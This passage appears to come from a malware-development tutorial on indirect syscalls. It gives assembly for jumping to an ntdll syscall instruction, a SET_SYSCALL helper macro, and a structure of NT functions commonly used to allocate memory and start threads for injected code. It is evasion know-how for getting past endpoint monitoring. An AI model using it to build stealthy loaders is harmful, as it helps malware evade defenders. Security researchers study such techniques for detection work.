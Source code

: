```c
		xor eax, eax      ; wont run
		xor rcx, rcx      ; wont run
		shl r10, 2        ; wont run
	Run:
		jmp qword ptr [qSyscallInsAdress]   ; jumping to the 'syscall' instruction
		xor r10, r10                        ; r10 = 0
		mov qSyscallInsAdress, r10          ; qSyscallInsAdress = 0
		ret
      RunSyscall endp

end
```

#### Creating a Helper Macro

As mentioned, the `SetSSn` function now requires two parameters from the initialized `NT_SYSCALL` structure, which are `NT_SYSCALL.dwSSn` and `NT_SYSCALL.pSyscallInstAddress`. To invoke the `SetSSn` function more easily, the `SET_SYSCALL` macro is created and shown below.

```c
#define SET_SYSCALL(NtSys)(SetSSn((DWORD)NtSys.dwSSn,(PVOID)NtSys.pSyscallInstAddress))
```

`SET_SYSCALL` takes an `NT_SYSCALL` structure and calls the `SetSSn` function, making the code neater. For example, the following snippets show `SetSSn` being called directly versus when using the `SET_SYSCALL` macro.

**Direct SetSSn Call**

```c
  NT_SYSCALL NtAllocateVirtualMemory = { 0 };
  FetchNtSyscall(NtAllocateVirtualMemory_Hash, &NtAllocateVirtualMemory);
  
  SetSSn(NtAllocateVirtualMemory.dwSSn, NtAllocateVirtualMemory.pSyscallInstAddress);
  RunSyscall(/* NtAllocateVirtualMemory's parameters */);
```

**Using SET_SYSCALL**

```c
  NT_SYSCALL NtAllocateVirtualMemory = { 0 };
  FetchNtSyscall(NtAllocateVirtualMemory_Hash, &NtAllocateVirtualMemory);
  
  SET_SYSCALL(NtAllocateVirtualMemory);
  RunSyscall(/* NtAllocateVirtualMemory's parameters */);
```

### Updating Main Function

#### Initializing The NTAPI_FUNC Structure

Similarly to the previous module, all the invoked syscalls will be saved in a global `NTAPI_FUNC` structure.

```c
typedef struct _NTAPI_FUNC
{
	NT_SYSCALL	NtAllocateVirtualMemory;
	NT_SYSCALL	NtProtectVirtualMemory;
	NT_SYSCALL	NtCreateThreadEx;
	NT_SYSCALL	NtWaitForSingleObject;

}NTAPI_FUNC, *PNTAPI_FUNC;

// global variable
NTAPI_FUNC g_Nt = { 0 };
```

